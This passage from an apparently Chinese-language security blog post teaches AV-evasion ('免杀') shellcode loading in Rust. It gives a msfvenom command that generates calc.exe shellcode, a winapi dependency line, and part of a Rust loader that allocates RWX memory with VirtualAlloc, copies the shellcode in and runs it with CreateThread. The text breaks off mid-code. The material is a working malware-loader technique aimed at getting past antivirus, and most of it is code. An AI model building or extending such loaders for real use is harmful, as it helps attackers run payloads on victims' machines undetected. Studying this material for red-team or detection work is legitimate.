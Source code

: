 ```yaml
---
title: Rust免杀-Shellcode加载与混淆
date: 2023-06-23 21:28:37
categories: 后渗透
tags: 
- Rust
- 免杀
---
```


## 前言
这是半年前我学习Rust和免杀时的一些记录，最近打开知识库看到了这篇半年前的笔记，并且发现我常逛的安全社区都比较少有人分享Rust以及Rust免杀的帖子，于是想着将这篇笔记分享出来供大家参考和指正。由于我写这篇文章时也刚刚开始接触Rust，所以文中所涉及的知识和代码都有可能出现错误，所以再次说明这篇文章仅供参考并希望大家指正。
## Shellcode加载方式
本文的主要目的是分享Rust对shellcode的加密混淆方式，所以对于shellcode加载只介绍两种基本的方式，可能在后续的文章中会对加载方式进行更多分享。
### 调用WinAPI
跟其他语言的shellcode加载器一样，要实现更多的shellcode加载方式，需要调用WinAPI。
执行shellcode的一般流程：
```Text
1. 创建或获取一段可读写执行的内存空间
2. 将shellcode移入这块内存空间
3. 利用各种方式将程序执行的流程指向这块内存空间
```

Rust调用WinAPI需要先引入依赖，`Cargo`是Rust的一个包管理工具，要引入`winapi`依赖需要在`Cargo.toml`添加：
```toml
winapi = {version="0.3.9",features=["winuser","processthreadsapi","memoryapi","errhandlingapi","synchapi"]}
```

这里以加载msf生成的弹计算器的shellcode为例，先使用`msfvenom`生成一段raw格式的shellcode，保存到`calc.bin`文件中，并复制到Rust的项目目录下。
```bash
msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o calc.bin
```

在Rust中，可以使用`include_bytes!`宏将静态文件在编译时包含进程序中。
下面通过调用`VirtualAlloc`申请一段内存，并设置为`PAGE_EXECUTE_READWRITE`权限，具体参数建议查阅微软WinAPI文档。然后通过`std::ptr::copy`将shellcode移动到内存中，接着通过`CreateThread`创建线程，`WaitForSingleObject`等待线程结束。
参考：[VirtualAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), [CreateThread function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread), [WaitForSingleObject function](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)
```Rust
use std::mem::transmute;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let ptr = VirtualAlloc(std::ptr::null_mut(), buffer.len(), 0x00001000, 0x40);

        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());

            let mut threadid = 0;
            let threadhandle = CreateThread(
                std::ptr::null_mut(),
                0,
                Some(transmute(ptr)),
```